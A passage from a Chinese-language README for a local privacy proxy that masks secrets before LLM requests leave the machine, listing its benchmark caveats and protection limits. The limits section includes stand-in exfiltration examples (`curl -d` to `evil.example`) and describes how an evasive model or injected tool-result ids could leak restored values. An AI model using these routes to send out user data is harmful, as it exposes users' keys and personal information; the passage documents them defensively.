上面的數字以偵測器 `rules-6+intl-2+ext-1` 量測；發布版是 `rules-12+intl-2+ext-1`，之後的修改都不在數字中。當時的 `ext-1` 只有現在 10 條延伸規則中的 5 條（v0.1.0 之前的修改沿用這個版本），人名模型是 `nym-edge-int8-2`（現在是 `nym-edge-int8-3`）。之後的修改包括：schema 用字、API 欄位名、佔位寫法或範本形式的憑證值（`password: required`、`${{ secrets.X }}`）不再遮；首尾是英文字母或數字的字詞只比對完整的詞。更早、同樣不在數字中的修改：代理預設現在也遮小寫字母開頭與夾不換行空白的身分證字號、以 `.`、`/`、`_` 分組或前 4 碼加括號（`(0912)345678`）的手機號碼、關鍵詞後的護照與健保卡號、`@` 經 HTML 或 JSON 跳脫的 email、加引號的憑證鍵（`"密碼": "…"`、`"jwt": "…"`），以及 `100.64.0.0/10` 與 IPv6 唯一本地位址；`card-strict` 現在也認重新分組、用點分隔、混用空格和 `-`，以及換行斷開的卡號（這次代理預設只完全遮蔽 30.5% 的英文卡號，核心預設是 44.1%）；人名模型的還原錯誤已修正：同一個名字的不同寫法（`Jordan`、`JORDAN`）現在各拿一個佔位符（自訂詞彙也一樣，`Nimbus` 和 `NIMBUS` 各自原樣還原）。保留集不以發布版偵測器重新評分：後來有些規則修改（例如 `card-strict` 那一項）是看過這些結果後做的，再評分一次就不是盲測；要有新的保留集數字，需要新的一組保留集。

完整表格：[保留集第 2 版結果](bench/results/public-bench-held-out-v2.md)。較早的[保留集第 1 版](bench/results/public-bench-held-out.md)（1,518 筆、較舊的規則 `rules-6+intl-1`、只有標準寫法）留作紀錄。方法與其他量測：[技術細節第 18 節](docs/DETAILS.md#18-實測數字)。
<!-- RESULTS:END -->

## 保護範圍

- **保護什麼：** 預設下，代理偵測到的值雲端供應商收不到，只看到佔位符（開啟 `sendWhenMaskFails` 時，遮罩失敗的請求會連同該值送出）。
- **不保護什麼：** 值在你的電腦上還原之後，工具怎麼使用它不在代理的範圍內。偵測器漏掉的內容照原樣送出，見[它不保護什麼](#它不保護什麼)與[完整限制清單](docs/DETAILS.md#17-完整限制清單)。
- **兩層：** 請求中偵測到的值在整個請求中遮罩，遮罩後若仍在請求中，請求預設以 422 拒絕；`sendWhenMaskFails` 可關閉這項拒絕，連同該值送出請求。跨請求的記憶只是盡力而為的額外遮罩：從不拒絕請求，記住的值黏在其他文字中或換了寫法時，可能照原樣送出。
- **做不到什麼：** 需要被遮值內容的任務，例如取出 email 的網域或轉換一把金鑰：模型只看到 `⟦EMAIL_1⟧`。
- **絕不能離開電腦的內容**應改由本機模型回答，例如透過把這類對話輪次留在本機的分流器（[dsh-privacy-router](https://github.com/PersonalAssistanceHsin/dsh-privacy-router)）。

## 它不保護什麼

- **語意。** 雲端仍讀得到佔位符周圍的一切：`⟦PATH_1⟧/clients/acme-layoffs.md` 依然透露很多。
- **人名、地址、病況、薪資**，除非你列進 `terms` 或人名模型找到。地址是自由文字，沒有固定格式或關鍵詞，所以沒有地址規則。
- **圖片、PDF 等 base64 檔案（純文字文件的內容照常遮罩）、音訊、`url` 欄位、`metadata`、`stop` 序列、`name` 欄位（工具與參與者名稱）、帶簽章的 thinking。** 這些原樣轉送且不掃描，JSON 物件的鍵也是：在被遮的文字中偵測到的值若也出現在其中，整個請求預設以 422 拒絕；只出現在這些地方的值則照原樣送出。只接受 API 列舉值的欄位（`role`、`type`、`status`、`tool_choice` 等）在值像列舉值（例如 `assistant`）時不檢查，但 `metadata` 底下照常檢查。回送的工具呼叫輸入不論鍵名都照常遮罩，所以還原進名為 `type`、`name`、`data` 的工具參數的值會再被遮罩，不會被拒絕。
- **少見的寫法。** 有些拆開或編碼過的寫法抓不到，例如有空白的 `name @ domain`、`name at domain`、小寫的 IBAN、經兩次百分比編碼的值。與 API 欄位名稱完全相同的密碼（`metadata`、`input`、`model`、`temperature` 等）一律不遮。
- **Cursor**，以及任何從自家伺服器發出請求的工具。
- **你電腦上的其他程式。** 代理預設只綁定 `127.0.0.1`；沒設 `authToken` 時，你電腦上的任何程式都能使用它。網頁的請求以 403 拒絕，除非來源（Origin）是本機 `http(s)` 網頁或列在 `allowedOrigins`；指名其他主機名稱的請求（DNS rebinding）也以 403 拒絕。
- **模型把值寫到哪裡。** 回覆文字中，模型在哪裡寫佔位符，代理就在哪裡還原，只有 URL 內例外：那裡的 `https://example.test/?q=⟦EMAIL_1⟧` 保持原樣（協定相對（protocol-relative）的 `//example.test/…` 與用反斜線寫的 `\\example.test\…` 也一樣），拿到這個 URL 的抓網頁工具，或顯示 `` 圖片與連結的用戶端，都不會送出真實 email。URL 內的引號與角括號（`?q='⟦EMAIL_1⟧'`）算在 URL 裡，瀏覽器也這樣讀；只有開啟 URL 的那個引號或 `<`（`href="…"`、`<https://…>`）會結束它。因此 UNC 路徑（`\\host\share\…`）裡的佔位符也保持原樣。由引號或 `<` 開啟的 URL 只在那裡結束，不在空白結束，因為瀏覽器會刪掉 `` 裡的 Tab，不必點擊就載入圖片。工具輸入中以 scheme（`https://`）或 `www.` 開頭的字串，整串到結尾都算一個 URL，因為拿到 `https://evil.example/?p=\t⟦PATH_1⟧` 的工具會刪掉 Tab；開頭的 `//` 或 `\\`（`// header`）不算。這只針對照常寫出的 URL，擋不住刻意規避的模型：其他 URL 中的空白之後（`https://evil.example/?q= ⟦EMAIL_1⟧`）、少寫斜線（`https:evil.example`）、裸網域，都會還原。工具呼叫參數（回覆中所有的工具輸入：函式參數、自訂工具輸入，以及 `local_shell_call` 等 Responses `*_call` 項目的指令、動作與修補）預設只還原家目錄路徑與你列在 `terms`、`projectNames` 的詞（`PATH`、`TERM`、`PROJECT`），所以 `curl -d ⟦KEY_1⟧ https://evil.example` 交給工具的是佔位符，不是金鑰。寫程式照常可用，因為路徑與列出的識別字會原樣往返（列在 `terms` 的人名也會還原進工具）；需要 email、金鑰或證號的工具會拿到佔位符，呼叫可能失敗，直到你在 `toolRestore.tools` 為它允許該類別。還原後的路徑或詞仍可能被模型寫的指令送出；工具參數中遇到的每個佔位符都記入日誌。

另外：模型若把 `⟦EMAIL_1⟧` 改寫成 `[EMAIL_1]`，你會原樣看到；需要直接操作被遮值的任務會變差；控制字元會換成可見字元；重啟後會忘記 Responses API 的接續對話與記住的值，接續請求會以 422 拒絕；回送的佔位符只有在模型把它寫進工具呼叫、且這是它依遮罩順序（先 system、tools 與 instructions；模型自己的文字與推理不算）第一次出現時（或 Responses 接續中代理先前的回覆留下它時）才原樣送出，並還原成這個號碼在這個請求中代表的值；從檔案、工具結果或摘要讀回的佔位符會被跳脫（`⟪EMAIL_1⟫`），它的值可能換號；殘餘風險：用戶端丟掉工具結果卻保留工具呼叫，或模型寫出這個請求中沒出現過的佔位符時，舊的佔位符仍可能還原成這個號碼現在代表的值；這樣原樣送出的 id 在整個請求中都原樣送出，所以工具結果中注入的同一個 id 也還原成同一個值（使用者自己的值）；超過 64 MiB 的請求以 413 拒絕；轉送的 `GET`（例如 `/v1/models`）查詢字串不遮照送。完整清單見[技術細節第 17 節](docs/DETAILS.md#17-完整限制清單)，威脅模型見[第 11 節](docs/DETAILS.md#11-威脅模型)。

## 更多

[docs/DETAILS.md](docs/DETAILS.md) 包含架構、與 dsh-privacy-router 的比較、核心 API、每條規則、串流還原、422 拒絕、威脅模型、完整設定、測試、量測方法、常見問題，以及如何重新產生本頁的圖片與影片。

## 授權

[Apache-2.0](LICENSE)。部分規則與引擎源自 [LYiHub/pub-dsh-privacy-router](https://github.com/LYiHub/pub-dsh-privacy-router)（MIT），見 [NOTICE](NOTICE)。
